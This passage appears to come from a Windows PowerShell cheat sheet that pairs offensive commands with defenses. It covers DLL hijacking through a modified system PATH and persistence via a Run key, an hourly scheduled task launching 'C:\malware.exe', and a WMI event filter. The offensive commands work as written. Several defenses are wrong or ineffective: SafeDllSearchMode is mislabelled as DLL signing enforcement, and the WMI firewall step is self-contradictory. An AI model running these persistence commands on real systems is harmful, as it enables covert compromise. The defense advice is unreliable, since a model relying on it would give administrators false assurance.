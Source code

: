 #### **DLL Hijacking**  
**Offensive Command**:  
```powershell  
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Session Manager\Environment" -Name "Path" -Value "C:\EvilDLL;$($env:Path)"  
```  
**Defense**:  
```powershell  
# Enable DLL signing enforcement  
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "SafeDllSearchMode" -Value 1  
```  

---

### **3. Persistence**  
#### **Registry Run Key**  
**Offensive Command**:  
```powershell  
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "C:\malware.exe"  
```  
**Defense**:  
```powershell  
# Monitor Run keys with Autoruns  
autorunsc.exe -accepteula -a * -c  
```  

#### **Scheduled Task**  
**Offensive Command**:  
```powershell  
schtasks /create /tn "MaliciousTask" /tr "C:\malware.exe" /sc hourly /mo 1  
```  
**Defense**:  
```powershell  
# Audit tasks  
schtasks /query /tn "MaliciousTask" /fo list  
```  

#### **WMI Event Subscription**  
**Offensive Command**:  
```powershell  
$FilterArgs = @{Name='MaliciousFilter'; EventNameSpace='root\CimV2'; QueryLanguage='WQL'; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"}; $Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs  
```  
**Defense**:  
```powershell  
# Disable WMI  
Set-NetFirewallRule -DisplayGroup "Windows Management Instrumentation (WMI)" -Enabled False -Action Block  
```  
